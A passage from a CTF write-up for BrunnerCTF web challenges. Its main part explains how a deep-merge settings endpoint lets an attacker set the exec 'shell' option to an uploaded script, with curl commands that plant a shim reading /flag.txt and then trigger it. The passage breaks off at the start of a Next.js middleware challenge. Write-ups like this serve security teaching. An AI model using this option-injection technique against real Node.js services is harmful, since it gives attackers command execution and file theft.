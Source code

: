 flag: `brunner{l0c4l_f1l3_1nclus10n_1n_th3_b4k3ry}`

## > Recipe For Disaster (Web, 107 solves)
`/api/settings` does a deep merge of your JSON into `app.locals.settings`:
```js
deepMerge(app.locals.settings, req.body);
```

Later, /export uses those merged settings as options to child_process.exec:
```js
const baseOpts = Object.assign({}, app.locals.settings.exportOptions || {});
const envFromSettings = baseOpts.env || {};      // (they try to delete env earlier)
const env = Object.assign({}, process.env, envFromSettings);
const opts = Object.assign({}, baseOpts, { cwd: __dirname, env });
exec(cmd, opts, (err, stdout, stderr) => { ... });
```

they block `exportOptions.env` in `/api/settings`, but they don’t block `exportOptions.shell` (or other exec options like `uid`, `gid`, `timeout`, `maxBuffer`, etc.).

`exec` will run your command through whatever shell you set in `opts.shell`. If we point `shell` to our own script, our script runs first and can print `/flag.txt` before delegating to a real shell.

therefore, let's upload a shell and read the flag.

```bash
curl -s -X POST https://recipe-for-disaster-72bf042470e3a9aa.challs.brunnerne.xyz/api/note \
  -H 'Content-Type: application/json' \
  -d '{
        "name": "brun1",
        "filename": "sh",
        "makeExecutable": true,
        "content": "#!/bin/sh\ncat /flag.txt\nexec /bin/sh \"$@\""
      }'

```

get the server to use our shell as shim:
```bash
curl -s -X POST https://recipe-for-disaster-72bf042470e3a9aa.challs.brunnerne.xyz/api/settings \
  -H 'Content-Type: application/json' \
  -d '{ "exportOptions": { "shell": "./data/brun1/sh" } }'

```

run shim:

```bash
curl -s "https://recipe-for-disaster-72bf042470e3a9aa.challs.brunnerne.xyz/export?name=brun1"
```

flag: `brunnerCTF{pr0t0typ3_p011u710n_0v3rfl0w1ng_7h3_0v3n}`

## > EPIC CAKE BATTLES OF HISTORY!!! (Web, 131 solves)

requests to `/admin` trigger a `middleware.ts` which redirects you back to `/` if you arent admin:
```typescript
import { NextResponse } from 'next/server'
import type { NextRequest } from 'next/server'

// This function can be marked `async` if using `await` inside
export function middleware(request: NextRequest) {
  // @ts-ignore
    if("CHAMPION" == "FOUND")
        return NextResponse.redirect(new URL('/admin', request.url))
  return NextResponse.redirect(new URL('/', request.url))
}

// See "Matching Paths" below to learn more
```